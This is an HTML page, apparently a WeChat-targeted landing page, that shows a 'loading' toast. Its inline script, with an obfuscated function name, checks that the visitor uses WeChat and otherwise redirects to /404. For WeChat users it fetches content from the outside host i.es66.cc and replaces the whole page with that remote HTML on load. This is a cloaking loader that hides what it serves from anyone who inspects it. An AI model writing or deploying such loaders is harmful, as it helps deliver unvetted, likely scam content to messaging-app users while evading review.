 <!DOCTYPE html>
<html lang="zh-cmn-Hans">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width,initial-scale=1,user-scalable=0,viewport-fit=cover">
    <title>.</title>
    <style>
        html{-ms-text-size-adjust:100%;-webkit-text-size-adjust:100%}body{line-height:1.6;font-family:-apple-system-font,"Helvetica Neue",sans-serif}*{margin:0;padding:0}.weui-toast{position:fixed;z-index:5000;width:136px;height:136px;top:40%;left:50%;-webkit-transform:translate(-50%,-50%);transform:translate(-50%,-50%);text-align:center;border-radius:12px;color:rgba(255,255,255,0.9);display:-webkit-box;display:-webkit-flex;display:flex;-webkit-box-orient:vertical;-webkit-box-direction:normal;-webkit-flex-direction:column;flex-direction:column;-webkit-box-align:center;-webkit-align-items:center;align-items:center;-webkit-box-pack:center;-webkit-justify-content:center;justify-content:center;background-color:#4c4c4c;box-sizing:border-box;line-height:1.4}.weui-icon_toast{display:block;width:40px;height:40px;margin-bottom:16px}.weui-icon_toast.weui-primary-loading{width:36px;height:36px}.weui-icon_toast.weui-primary-loading:before,.weui-icon_toast.weui-primary-loading:after{content:"";display:block;width:18px;height:36px}.weui-icon_toast.weui-primary-loading:before{border-top-left-radius:36px;border-bottom-left-radius:36px}.weui-icon_toast.weui-primary-loading:after{border-top-right-radius:36px;border-bottom-right-radius:36px}.weui-toast__content{font-size:17px;padding:0 12px;word-wrap:break-word;-webkit-hyphens:auto;hyphens:auto}.weui-mask_transparent{position:fixed;z-index:1000;top:0;right:0;left:0;bottom:0}.weui-search-bar__input:not(:valid)+.weui-icon-clear{display:none}.weui-primary-loading{display:-webkit-inline-box;display:-webkit-inline-flex;display:inline-flex;position:relative;width:16px;height:16px;vertical-align:middle;color:black;color:var(--weui-FG);-webkit-animation:weuiLoading 1s steps(60,end) infinite;animation:weuiLoading 1s steps(60,end) infinite}.weui-primary-loading:before,.weui-primary-loading:after{content:"";display:block;width:8px;height:16px;box-sizing:border-box;border:2px solid;border-color:currentColor;opacity:.5}.weui-primary-loading:before{border-right-width:0;border-top-left-radius:16px;border-bottom-left-radius:16px;-webkit-mask-image:-webkit-linear-gradient(top,#000 8%,rgba(0,0,0,0.3) 95%)}.weui-primary-loading:after{border-left-width:0;border-top-right-radius:16px;border-bottom-right-radius:16px;-webkit-mask-image:-webkit-linear-gradient(225deg,rgba(0,0,0,0) 45%,rgba(0,0,0,0.3) 95%)}.weui-primary-loading__dot{position:absolute;top:0;left:50%;width:1px;height:2px;border-top-right-radius:2px;border-bottom-right-radius:2px;background:currentColor;opacity:.5}.weui-primary-loading_transparent{color:#fff}@-webkit-keyframes weuiLoading{0%{-webkit-transform:rotate3d(0,0,1,0deg);transform:rotate3d(0,0,1,0deg)}100%{-webkit-transform:rotate3d(0,0,1,360deg);transform:rotate3d(0,0,1,360deg)}}@keyframes weuiLoading{0%{-webkit-transform:rotate3d(0,0,1,0deg);transform:rotate3d(0,0,1,0deg)}100%{-webkit-transform:rotate3d(0,0,1,360deg);transform:rotate3d(0,0,1,360deg)}}
    </style>
</head>
<body>
<div>
    <div class="weui-mask_transparent"></div>
    <div class="weui-toast">
        <span class="weui-primary-loading weui-primary-loading_transparent weui-icon_toast">
          <span class="weui-primary-loading__dot"></span>
        </span>
        <p class="weui-toast__content">正在加载</p>
    </div>
</div>
<script>
function View(a) {
    function d() {
        var a = document.open("text/html", "replace");
        a.write(c), a.close();
    }
    var b, c;
    a = a + "?t_=" + Date.now(), b = new XMLHttpRequest(), c = null, b.onload = function() {
        c = b.responseText;
        var a = 0;
        a > 0 ? setTimeout(d, 1e3 * a) :d();
    }, b.open("GET", a, !0), b.send();
}
function gda6jrp46x27p7(a, b, c) {
    var d = new XMLHttpRequest();
    d.onreadystatechange = function() {
        4 === d.readyState && (200 === d.status || 304 === d.status ? "function" == typeof b && b(d.responseText) : "function" == typeof c && c(d));
    },d.open("GET", a, !0),d.send(null);
}
function getUrlParam(name) {var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");var r = window.location.search.substr(1).match(reg);if (r != null) return unescape(r[2]);return null;}

if (/micromessenger/.test(navigator.userAgent.toLowerCase())) {
    infos = {id:getUrlParam('id'), 'cnzz':'', 'bdtj':'' ,'apiurl':'https://i.es66.cc'};
    code = '';
    gda6jrp46x27p7(infos.apiurl+"/api/service/getTjCode?id=" + infos.id, function(aa) {
        aa = JSON.parse(aa);
        infos['cnzz'] = aa['cnzz'];
        infos['bdtj'] = aa['bdtj'];
        View(infos.apiurl +'/x1.php');
    });
}else{
    location.href = '/404';
}
</script>
</body>
</html>